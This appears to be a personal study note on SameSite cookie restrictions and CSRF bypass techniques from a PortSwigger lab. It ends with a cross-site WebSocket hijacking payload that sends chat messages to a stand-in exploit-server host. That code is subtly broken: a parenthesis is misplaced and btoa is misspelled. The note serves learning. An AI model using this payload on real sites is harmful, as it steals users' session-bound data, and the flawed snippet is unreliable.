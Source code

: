 
2024-07-14 22:20

Source: #portswigger 

Tags: [[CSRF]]

`SameSite` is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites.

Since 2021, Chrome applies `Lax` `SameSite` restrictions by default if the website that issues the cookie doesn't explicitly set its own restriction level. 

You may come across the term "effective top-level domain" (`eTLD`). This is just a way of accounting for the reserved multipart suffixes that are treated as top-level domains in practice, such as `.co.uk.` 

If the website issuing the cookie doesn't explicitly set a `SameSite` attribute, Chrome automatically applies `Lax` restrictions by default. This means that the cookie is only sent in cross-site requests that meet specific criteria, even though the developers never configured this behavior.
##### Strict 

If a cookie is set with the `SameSite=Strict` attribute, browsers will not send it in any cross-site requests. In simple terms, this means that if the target site for the request does not match the site currently shown in the browser's address bar, it will not include the cookie. 
##### Lax

 `Lax` `SameSite` restrictions mean that browsers will send the cookie in cross-site requests, but only if both of the following conditions are met:
- The request uses the `GET` method.
- The request resulted from a top-level navigation by the user, such as clicking on a link.
##### None

- If a cookie is set with the `SameSite=None` attribute, this effectively disables `SameSite` restrictions altogether, regardless of the browser. 
- There are legitimate reasons for disabling `SameSite`, such as when the cookie is intended to be used from a third-party context and doesn't grant the bearer access to any sensitive data or functionality. Tracking cookies are a typical example. 
- When setting a cookie with SameSite=None, the website must also include the Secure attribute, which ensures that the cookie is only sent in encrypted messages over HTTPS.
#### Bypassing SameSite Lax restrictions using GET requests

If servers also use `Lax` restrictions for their session cookies, either explicitly or due to the browser default, you may still be able to perform a CSRF attack by eliciting a `GET` request from the victim's browser. 
As long as the request involves a top-level navigation, the browser will still include the victim's session cookie. 

Even if an ordinary `GET` request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, `Symfony` supports the `_method `parameter in forms, which takes precedence over the normal method for routing purposes
#### Bypassing SameSite restrictions using on-site gadgets

- If a cookie is set with the` SameSite=Strict` attribute, browsers won't include it in any cross-site requests. You may be able to get around this limitation if you can find a gadget that results in a secondary request within the same site. 
- One possible gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters.
- Note that the equivalent attack is not possible with server-side redirects. 
If the site is redirecting then find a script that is doing the redirect, study the script, find a parameter that we can manipulate, then do directory traversal 
#### Bypassing SameSite restrictions via vulnerable sibling domains

In addition to classic `CSRF`, don't forget that if the target website supports `WebSockets`, this functionality might be vulnerable to cross-site WebSocket hijacking (CSWSH), which is essentially just a CSRF attack targeting a WebSocket handshake. 
##### lab:
in the lab we have a chat feature that uses websockets, when capturing the request on burp we see that we send a ready message and the websocket server responds with the entire chat history that is tied to our session cookie
in http history find a response that mentions switching protocol in that corresponding request check if the request contains all the points for it to be CSRF vulnerable. 
###### samesite: None

```
var webSocket = new WebSocket("lab-url/chat");

webSocket.onopen = function(evt){
	webSocket.send("READY");
};

webSocket.onmessage = function(evt){
	var message = evt.data;
	fetch("exploit-server-url/exploit?message=")+btao(message);
};
```